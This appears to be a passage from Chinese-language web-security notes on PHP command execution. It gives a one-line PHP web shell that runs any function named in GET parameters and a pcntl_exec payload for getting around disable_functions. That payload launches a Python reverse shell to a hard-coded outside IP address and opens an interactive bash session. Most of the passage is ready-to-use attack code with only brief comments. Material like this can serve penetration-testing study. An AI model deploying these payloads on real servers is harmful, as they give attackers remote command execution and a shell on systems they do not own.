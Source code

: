 ![Aｌt text](4.png)
### 5.PHP函数直接由字符串拼接
```php
<?php
//?a=assert&b=phpinfo()
$_GET['a']($_GET['b']);
?>
```
### 系统函数　exec()/shell_exec()/passthru()
escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
### 利用pcntl_exec突破disable_functions
pcntl是linux下的一个扩展，可以支持php的多线程操作。\(与python结合反弹shell\)
   pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP 4 >= 4.2.0, PHP 5
```php
<?php  pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?>

```
![Alt text](33.png)